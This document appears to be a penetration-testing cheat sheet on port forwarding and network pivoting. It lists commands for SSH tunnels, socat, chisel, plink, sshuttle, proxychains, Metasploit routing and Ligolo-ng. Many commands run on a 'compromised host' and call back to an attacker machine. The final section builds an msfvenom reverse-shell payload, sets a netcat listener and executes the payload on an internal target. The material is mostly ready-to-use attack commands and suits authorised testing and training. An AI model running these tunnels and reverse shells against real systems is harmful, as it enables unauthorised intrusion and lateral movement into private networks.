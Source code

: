 # Port Fowarding and Proxying
## Port Fowarding
### SSH Tunneling/Local Port Forwarding  
```
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding
```
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>
```

### Socat - Port Forward
```
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

### chisel  - Remote Port Forward 
-> Your machine  
```
./chisel server -p <LISTEN_PORT> --reverse &
```

-> Compromised Host
```
./chisel client <ATTACKING_IP>:<LISTEN_PORT> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &
```

### Chisel - Local Port Forward
-> Compromised Host  
```
./chisel server -p <LISTEN_PORT>
```

-> Your Machine  
```
./chisel client <LISTEN_IP>:<LISTEN_PORT> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>
```

### pklink - Remote Port Forward
```
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting
### sshuttle (Unix) - proxying  
```
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains
edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy
-> Your Machine  
```
./chisel server -p LISTEN_PORT --reverse &
```
-> Compromised Host  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> R:socks &
```

### chisel - Forward Proxy  
-> Compromised Host  
```
./chisel server -p <LISTEN_PORT> --socks5
```
-> Your Machine  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### metasploit - proxying 
```
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```

### Ligolo-ng
```
sudo ip tuntap add user kali mode tun ligolo # Run this first to create a new tun interface for ligolo

ip route list # list routes

sudo ip link set ligolo up # turn on ligolo interface

./proxy -selfcert -laddr 0.0.0.0:443 # Run this on kali attacking machine to start the C2/proxy server

# On Jump host run 

./agent.exe -connect attacker_server:443 -ignore-cert

# After successfull connection is confirmed add route to the target network to kali's routing table

sudo ip route add <Internal_Network> dev ligolo

# then start a tunnel in ligolo using
start

#Nmap scanning thru ligolo
sudo nmap <Internal_Network_IP> -p- -sV -T3 -PE

#Sending reverse shell's back thru ligolo
So if we find ourselves in a situation where we have a pivot setup to the internal network, but the internal machine cant send back a shell to our attack box, we can use ligolo's TCP listeners to get our shell back on our kali box!

# On the Ligolo proxy setup a listener
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:9001 --tcp # This will make it so that any connections sent to port 1234 on our agent back to our kali box on 9001, using this for reverse shell.
listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80 --tcp # This will make it so that any connections sent to port 80 on our agent back to our kali box on 80, using this for transfer tools.

# so if we need to get a shell back thru our pivot we would make a new payload that sends a shell to the Agent box on port 1234
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o revshell-1234.exe LHOST=client01-IP LPORT=1234

#Set a netcat Listener on our Kali Linux
nc -lvnp 9001

# Now on the target/internal machine we want a shell on just run the revshell-1234.exe file and we get a shell!
.\revshell-1234.exe
```
